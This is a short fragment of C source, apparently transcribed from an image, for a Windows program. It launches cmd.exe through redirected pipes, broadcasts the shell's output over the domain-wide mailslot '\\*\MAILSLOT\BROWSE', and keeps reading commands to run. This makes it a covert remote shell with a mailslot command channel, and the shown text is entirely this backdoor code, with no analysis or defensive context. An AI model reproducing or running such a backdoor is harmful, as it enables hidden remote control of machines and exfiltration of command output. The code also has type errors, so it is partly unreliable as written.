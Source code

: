 ```c
	DWORD dwWritten = 0;

	snprintf(message, BUFFER_SIZE + 2, "\x09%s", output);
	
	WriteFile(hMailslot, message, strlen(message) + 1, &dwWritten, NULL);
	return;
}


int main(int argc, char** argv[]) {
	ft.dwHighDateTime = 0;
	ft.dwLowDateTime = 0;
	int status = 0;
	char buffer_stdout[BUFFER_SIZE + 1] = { 0 };
	struct child_pipes* pipes = NULL;
	int process = 0;
	HANDLE hMailslot = NULL;

	pipes = setup_pipes();
	hMailslot = CreateFileA("\\\\*\\MAILSLOT\\BROWSE", GENERIC_WRITE, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	if ((process = create_childprocess("C:\\windows\\system32\\cmd.exe", pipes)) == -1) {
		release_pipes(pipes);
		return -1;
	}
	while (1) {
		GetExitCodeProcess(process, &status);
		if (status != STILL_ACTIVE) {
			break;
		}
		do {
			memset(buffer_stdout, 0, sizeof(buffer_stdout));
			status = read_from_pipe(pipes->child_OUT_R, buffer_stdout);
			if (status == -1) {
				break;
			}
			else {
				if (strlen(buffer_stdout) != 0) {
					sendOutput(buffer_stdout, hMailslot);
				}
			}
		} while (status != 0);
		Sleep(300);
		getCommand(pipes);
	}

	return 0;
}
```
